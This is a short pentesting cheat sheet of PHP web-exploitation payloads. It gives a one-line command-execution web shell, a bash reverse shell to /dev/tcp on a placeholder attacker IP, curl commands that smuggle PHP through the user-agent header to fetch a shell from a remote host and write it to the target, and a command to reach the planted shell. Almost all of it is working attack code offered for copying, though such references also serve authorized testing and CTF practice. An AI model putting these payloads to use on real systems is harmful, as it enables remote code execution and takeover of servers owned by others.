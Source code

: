 # PHP Commands
Commands and payloads for PHP-based web exploitation

## Mini PHP Shell
```php copy
<?php system($_REQUEST['cmd']) ?>
```
- Executes system commands passed via the `cmd` parameter.

```bash copy
curl http://10.10.10.10/shell.php?cmd=ls
```
- Sends a request to the PHP shell to list directory contents.

## PHP Reverse Shell
```php copy
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.10.10/1234 0>&1'"); ?>
```
- Executes a reverse bash shell connecting to the attacker.

## Upload PHP Shell (Variant 1)
```bash copy
curl -A "<?php file_put_contents('shell.php',file_get_contents('http://10.10.10.10:80/shell.php'))?>" -s http://10.10.10.10
```
- Uploads a PHP shell by writing it to `shell.php` on the target.
- `-A`: Sets the user agent to the PHP payload.
- `-s`: Silent mode, suppresses output.

## Upload PHP Shell (Variant 2)
```bash copy
curl -A "<?php file_put_contents('shell.php',file_get_contents('http://10.10.10.10:80/shell.php')); ?>" -s http://10.10.10.10
```
- Alternative syntax to upload a PHP shell to `shell.php`.
- `-A`: Sets the user agent to the PHP payload.
- `-s`: Silent mode, suppresses output.

## Access PHP Shell
```bash copy
curl http://10.10.10.10/shell.php
```
- Accesses the uploaded PHP shell on the target.
